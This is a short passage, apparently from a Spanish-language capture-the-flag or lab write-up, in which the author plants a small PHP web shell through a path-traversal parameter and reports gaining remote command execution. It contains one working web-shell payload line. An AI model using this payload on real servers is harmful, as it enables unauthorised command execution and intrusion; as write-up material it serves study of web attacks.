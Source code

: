 
Creamos una pequeña web shell.
![Write-up Image](images/Screenshot_28.png)

```
id=../uploads/test.php&header=<?php+echo+"<pre>"+.+shell_exec($_GET["cmd"])+.+"</pre>";?>
```

Y conseguimos ejecución remota de comandos.